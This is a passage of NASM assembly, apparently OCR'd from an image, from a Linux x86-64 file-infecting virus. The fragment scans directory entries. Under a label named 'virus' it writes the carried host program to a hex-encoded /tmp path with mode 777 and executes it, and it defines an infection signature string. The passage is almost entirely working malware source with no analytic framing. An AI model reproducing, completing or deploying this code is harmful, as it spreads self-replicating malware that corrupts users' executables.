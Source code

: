 ```nasm

    .continue:
        add r9w, [rsp + r9 + 200 + DIRENT.d_reclen]
        cmp r9, r10
        jl scan

finscan:
    mov rax, 0x3
    pop rdi
    syscall


virus:

    pop r9
    cmp r9, 0
    jle .exit

    mov rax, 0x1
    mov rdi, 0x1
    mov rsi, msg
    mov rdx, msgl
    syscall

    mov rax, 0x55
    mov rdi, tmpf
    mov rsi, 777o
    syscall

    mov r15, rax

    mov rax, 0x1
    mov rdi, r15
    mov rsi, host
    mov rdx, r9
    syscall

    mov rax, 0x3
    mov rdi, r15
    syscall

    add rsp, 2000

    mov rax, 0x3b
    mov rdi, tmpf
    xor rsi, rsi
    xor rdx, rdx
    syscall

    .exit:
        xor     edi,edi
        mov     eax,60
        syscall

segment readable writeable
cwdd db 0x2e,0x00
tmpf db 0x2f, 0x74, 0x6d, 0x70, 0x2f, 0x35, 0x35, 0x36, 0x35, 0x00
vsign db 0x7e, 0x49, 0x4e, 0x46, 0x7e
vsignl = $-vsign
```